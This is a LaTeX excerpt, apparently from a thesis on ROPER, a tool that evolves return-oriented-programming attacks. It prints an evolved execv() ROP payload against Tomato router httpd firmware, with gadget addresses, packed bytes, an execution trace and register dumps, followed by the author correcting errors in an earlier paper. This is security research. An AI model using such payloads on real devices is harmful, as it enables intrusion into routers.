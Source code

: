 \documentclass[12pt,glossary]{dalthesis}
\begin{document}

\begin{table}
\label{fig:wiwzuh}
\begin{lstlisting}
(*\textbf{Clumps:}*)
[*] 0000b4ac   00000000   00000b17   0000000b   0000000b   00000000  
[*] 0000d1a0   0001f62f   0001f62f   0001f62f  
[*] 00016654   706d742f  
[*] 0001706c   0001f62f   0000fff8   0001f62f  

(*\textbf{Packed:}*)
ac b4 00 00  00 00 00 00  17 0b 00 00  0b 00 00 00  
0b 00 00 00  00 00 00 00  a0 d1 00 00  2f f6 01 00  
2f f6 01 00  2f f6 01 00  54 66 01 00  2f 74 6d 70  
6c 70 01 00  2f f6 01 00  f8 ff 00 00  2f f6 01 00  

(*\textbf{Execution Trace:}*)
0000b4ac        pop {r4, r5, r6, r7, r8, pc}

0000d1a0        cmp r0, #0
0000d1a4        popeq {r3, r4, r5, pc}

00016654        cmp r0, #0
00016658        ldr r3, [pc, #4]
0001665c        moveq r0, r3
00016660        pop {r3, pc}

0001706c        ldm sp, {r0, r1}
00017070        add sp, sp, #0x10
00017074        pop {r4, r5, r6, pc}

(*\textbf{Registers:}*)
R0:  1f62f->706d742f  R8:  0->68732e00 
R1:  fff8->1f62f      R9:  0->68732e00
R2:  0->68732e00      R10: 0->68732e00
R3:  706d742f         R11: 0->68732e00
R4:  0->68732e00      FP:  0->68732e00
R5:  0->68732e00      SP:  2b053->0   
R6:  0->68732e00      LR:  0->68732e00
R7:  b->746e692e      PC:  0->68732e00
\end{lstlisting}
\caption{A perfected \texttt{execv()} payload on \texttt{tomato-RT-N18U-httpd}, from the \emph{Wiwzuh} population, generation 17.}
\end{table}


\label{org1f69f27}
I must make a correction to a report stemming from this series of 
experiments that I had previously published and presented (\cite{fraser17_gecco}, 
\cite{fraser17_atlseccon}). I had initially set the target pattern for these attacks
to \texttt{02bc3e,02bc3e,0,\_,\_,\_,\_,0b}, where I had identified \texttt{02bc3e} as the address
of the string \texttt{"/bin/sh"} in the httpd binary. This was inaccurate on three counts:
first, the address was off by\texttt{ 0x10000} bytes, as a more careful inspection of the
program headers -- and subsequent improvement of \gls{roper}'s \gls{elf} loader --
revealed. Second, that string is not null-terminated, and so we'd have trouble
passing it as-is to \texttt{execv()} -- though it is newline-terminated, sitting at
the beginning of an embedded shell script, and residing in writeable memory, so 
it's still likely of some use, with a bit of manoeuvering. Most seriously, though,
was a rookie mistake I had made in relaying \texttt{execv()}'s signature: the second
parameter requires another degree of indirection, and so this particular payload
would have immediately resulting in a segmentation fault, if deployed in a real
scenario. These errors all stand corrected in the current document, and \gls{roper}'s
handling of pointer indirection and dereference has been vastly improved, along
with its \gls{elf} loader.
\end{document}
